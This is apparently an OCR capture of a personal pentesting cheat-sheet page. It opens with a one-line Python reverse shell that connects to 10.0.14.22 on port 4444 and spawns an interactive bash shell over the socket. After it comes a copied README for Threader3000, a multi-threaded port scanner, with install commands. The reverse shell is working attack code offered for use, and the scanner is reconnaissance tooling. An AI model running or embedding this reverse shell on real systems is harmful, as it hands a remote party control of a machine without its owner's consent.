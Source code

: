python
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.14.22",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

## programming examples
port scanner examples:

im use this

https://github.com/dievus/threader3000

# Threader3000 
### Multi-threaded Python Port Scanner with Nmap integration for use on Linux or Windows

Threader3000 is a script written in Python3 that allows multi-threaded port scanning.  The program is interactive and simply requires you to run it to begin.  Once started, you will be asked to input an IP address or a FQDN as Threader3000 does resolve hostnames.  A full port scan can take as little as 15 seconds, but at max should take less than 1 minute 30 seconds depending on your internet connection.

## Requirements
Python3 must be installed on your system in order to function
Pip3 for installation via PyPi repository

## Installation
**Installation via Pip**

```bash 
pip3 install threader3000
```

Run by typing:
```bash
threader3000
```

**Install via Git**

```bash
git clone https://github.com/dievus/threader3000.git #to save the program to your machine, or utilize the download option
```

You can add Threader3000 to run from any directory by adding a symbolic link:

```bash
sudo ln -s $(pwd)/threader3000.py /usr/local/bin/threader3000
```
